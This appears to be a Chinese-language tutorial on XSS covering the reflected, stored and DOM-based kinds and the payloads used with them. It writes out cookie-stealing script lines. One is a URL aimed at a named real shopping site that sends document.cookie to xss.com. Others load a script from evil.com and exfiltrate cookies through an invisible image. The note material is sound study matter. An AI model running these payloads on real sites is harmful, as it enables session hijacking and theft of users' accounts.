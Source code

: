 ### 本质
是一种“HTML注入”，用户的数据被当成了HTML代码一部分来执行，从而产生了新的语义

-------------

### XSS的分类

#### 1、反射型XSS：将用户输入的数据反射给浏览器。黑客需要诱使用户“点击”一个恶意链接，才能攻击成功。  
举个例子：  
1. 假设在某购物网站上搜商品，当搜不到商品时会出现  
![](/images/2018/08/ow7pa2xmka.png)

此时的URL是`https://category.vip.com/suggest.php?keyword=xss&ff=235|12|1|1`

1. 在搜索框输入`<script>alert('xss')</script>`  
2. 如果前端页面没有对搜索框的内容进行过滤，而是直接发送，这时，URL地址栏应该会显示`https://category.vip.com/suggest.php?keyword=<script>alert('xss')</script>&ff=235|12|1|1`，从而alert出xss，但事实却是已经转码了的：`https://category.vip.com/suggest.php?keyword=%3Cscript%3Ealert(%27xss%27)%3C%2Fscript%3E&ff=235|12|1|1`  
3. 假设前端页面没有进行处理，那么攻击者就可以通过构造来获取用户的cookie的地址，来诱使用户来访问这个地址，比如说`https://category.vip.com/suggest.php?keyword=<script>document.location='http://xss.com/get?cookie='+document.cookie</script>&ff=235|12|1|1`  

#### 2、存储型XSS：把用户输入的数据“存储”在服务器端，这种XSS具有很强的稳定性。
比如说，黑客写下一篇包含恶意javascript代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在浏览器中执行这段恶意的javascript代码，黑客把恶意的脚本保存到服务器端

#### 3、DOM Based XSS：通过修改页面的DOM节点形成的XSS。
举个例子：  
![](/images/2018/08/y3gm5kihsj.png)

1. 在输入框中输入内容后点击write  
![](/images/2018/08/cc8ci5vca3.png)

2. 此时再点击a链接  
![](/images/2018/08/fsrymnkp3k.png)

**原理：** 首先用一个单引号闭合掉href的第一个单引号，然后插入一个onclick事件，最后再用注释符"//"注释掉第二个单引号。点击此链接，脚本将被执行。

----------------------

### XSS Payload攻击

#### 定义
> XSS攻击成功后，攻击者能够对用户当前浏览的页面植入恶意脚本，通过恶意脚本，控制用户的浏览器。这些用以完成各种具体功能的恶意脚本，被称为XSS Payload。实际上就是Javascript脚本（或者Flash或其他富客户端的脚本），所以XSS Payload能够做到任何javascript脚本能实现的功能

#### 实例
- 通过读取浏览器的cookie对象，从而发起“cookie劫持”攻击
1. 攻击者首先加载一个远程脚本 `http://www.a.com/test.htm?abc="><script src=http://www.evil.com/evil.js></script>`
2. 真正的XSS Payload写在这个远程脚本中，避免直接在URL的参数里写入大量的Javascript代码
3. 在evil.js中，通过如下代码窃取cookie `var img = document.createElement("img");`
4. `img.src = "http://www.evil.com/log?"+escape(document.cookie);`
5. `document.body.appendChild(img);`
6. 以上代码在页面中插入了一张看不见的图片，同时把document.cookie对象作为参数发送到远程服务器中
7. [http://www.evil.com/log](http://www.evil.com/log) 并不一定要存在，因为这个请求会在远程服务器的Web日志中留下记录 `127.0.0.1 - - [119/Jul/2010:11:30:42 + 0800] "GET /log?cookie1%3D1234 HTTP/1.1" 404 288`
- 通过模拟GET、POST请求操作用户的浏览器（在“cookie劫持”失效时，或者目标用户的网络不能访问互联网等情况时会非常有用）
  1. 假设某博客页面存在XSS漏洞，那么可以通过构造get请求操作用户浏览器  
  2. 假设正常删除博客文章的链接为`http://blog.test.com/manage/entry.do?m=delete&id=1245862`
  3. 对于攻击者来说，只需要知道文章的id，就能够通过这个请求来删除这篇文章
  4. 攻击者可以通过插入一张图片来发起一个get请求  
  ![](/images/2018/08/lzkcgzju99.png)  